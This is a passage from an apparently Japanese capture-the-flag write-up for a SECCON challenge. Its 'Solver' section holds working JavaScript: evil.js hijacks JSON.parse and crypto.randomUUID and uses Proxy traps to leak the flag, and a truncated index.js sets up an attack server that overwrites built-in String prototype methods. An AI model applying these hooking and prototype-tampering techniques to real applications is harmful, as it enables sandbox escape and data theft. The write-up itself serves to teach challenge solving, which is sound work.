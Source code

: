 これは以下を参考していい感じのProxyを作成して処理をhookすればOKです:

- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Meta_programming
- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy

### Solver

以上を組み合わせるとフラグ文字列を奪取できます。

`evil.js`:
```javascript
export const crypto = {
  randomUUID: () => ({
    replaceAll: () => "dummy",
  }),
};

const proxy1 = new Proxy(
  {},
  {
    has(target, propertyKey) {
      console.log(propertyKey); // output a flag
      return Reflect.has(...arguments);
    },
  }
);

const proxy2 = new Proxy(
  {},
  {
    set(target, property, value, receiver) {
      Object.setPrototypeOf(value, proxy1);
      return Reflect.set(...arguments);
    },
  }
);

JSON.parse = () => proxy2;
```

`index.js`:
```javascript
const fastify = require("fastify")();
const fs = require("node:fs");

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL || fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL || fail("No ATTACK_BASE_URL");

const LISTEN_PORT = process.env.PORT || "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const source = `
  output.importMap = input.importMap;
  output.imports = input.imports;
  "".constructor.prototype.replaceAll = "".constructor.raw;
  "".constructor.prototype.raw = input.filename;

  input.key = output;
`;

```